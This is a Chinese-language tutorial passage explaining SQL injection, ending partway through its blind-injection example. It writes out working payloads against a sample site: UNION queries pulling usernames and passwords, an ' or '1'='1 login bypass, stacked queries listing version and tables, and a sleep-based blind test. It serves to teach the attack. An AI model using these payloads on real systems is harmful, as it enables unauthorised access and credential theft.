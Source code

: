 ​	SQL注入攻击是通过操作输入来修改事先定义好的SQL语句，用以达到执行代码对服务器进行攻击的方法。

​	SQL注入的原理是:

> ​	通过构造特殊的输入字符串，破坏后端程序原有的SQL查询语句的结构，使得攻击者可以在查询语句的结尾上添加额外的SQL语句，从而执行非预期的操作。

##### 2.511	一些SQL注入攻击的例子	

- 检索隐藏数据。在其中修改SQL查询以返回其他结果。例如：

```sql
http://www.armandhe.com/query.php?id=1' and 1=2 union select username,password from users --
```

这个输入会使后端查询语句变成：

```sql
select name,age,gender from t_students where id=1' and 1=2 union select username,password from users --;
```

由于`and 1=2`这个条件永远为假，所以第一个查询语句不会返回任何结果。然后使用`union`关键字来连接第二个查询语句，从users表中检索用户名和密码，并返回给用户。



- 颠覆应用程序逻辑。更改查询以干扰应用程序的逻辑。例如：

```sql
http://www.armandhe.com/login.php?username=admin' or '1'='1&password=
```

这个输入会使后端查询语句变成：

```sql
select * from users where username='admin' or '1'='1' and password='';
```

由于`or '1'='1'`这个条件永远为真，所以无论数据库中是否存在admin用户，都会返回所有用户信息，并使得攻击者可以无密码登录。



- 检查数据库。从中可以提取有关数据库版本和结构的信息。例如：

```sql
http://www.armandhe.com/query.php?id=0; select version() --
http://www.armandhe.com/query.php?id=0; select database() --
http://www.armandhe.com/query.php?id=0; select user() --
http://www.armandhe.com/query.php?id=0; select table_name from information_schema.tables --
```

这些输入会使后端执行多条查询语句，并返回相应的信息，如数据库版本、名称、用户、表名等。



- 盲SQL注入。控制的查询结果不会在应用程序的响应中返回。例如：

```sql
http://www.armandhe.com/query.php?id=0; if (user()='root', sleep(10), null) --
```

这个输入会使后端执行以下条件判断语句：

```sql
if (user()='root', sleep(10), null)
```
